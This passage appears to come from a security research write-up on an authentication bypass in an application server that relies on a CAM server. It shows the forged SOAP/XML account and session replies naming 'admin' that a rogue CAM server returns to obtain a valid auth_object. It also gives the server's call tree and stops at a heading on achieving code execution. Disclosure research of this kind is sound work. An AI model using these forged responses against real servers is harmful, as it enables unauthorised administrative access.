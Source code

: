 Starting step 4, in the first request, the CAM server has to answer with the account info, containing a valid username:

```xml
<item xsi:type="bus:account">
  <defaultName><value>admin</value></defaultName>
</item>
```

In the second request, the CAM server has to reply with the session info, which again has to contain a valid username:

```xml
<item xsi:type="bus:session">
  <identity>
    <value baseClassArray xsi:type="SOAP-ENC:Array" SOAP-ENC:arrayType="tns:baseClass[3]">
      <item xsi:type="bus:account">
        <searchPath><value>admin</value></searchPath>
      </item>
    </value>
  </identity>
</item>
```

As for the third request, we can send random data inside the SOAP envelope, as it is not needed for successful authentication.

Finally, if the username we provided in the XML returned by the CAM server exists in the Application server ("admin" is a safe bet since it has administrative privileges and always exists), in step 5 we get a valid *auth_object* such as:

```[ 5, 3, 0xc3, 0x80, 0, 0xe, 0xdd, 0, 0 ]```

A simplified call tree is shown below:

```ruby
# function invoked with message_type_cam (0x8)
sv_SystemServerConnectWithCAMPassport()

    # sets up CAM server URL, SSL and connection properties
    GetClientWithCAMPassport()
    
        # calls the CAM server twice and returns a CT1CAMUser object
        CreateCAMUser()
        
            # performs a third call to the CAM server, which can be ignored
            QueryNameSpace()
            
                # fetches a TM1Client object with the CT1CAMUser username
                GetClientByName()
                
# <--- if GetClientByName() succeeds, returns an auth_object
```

### Achieving Code Execution:
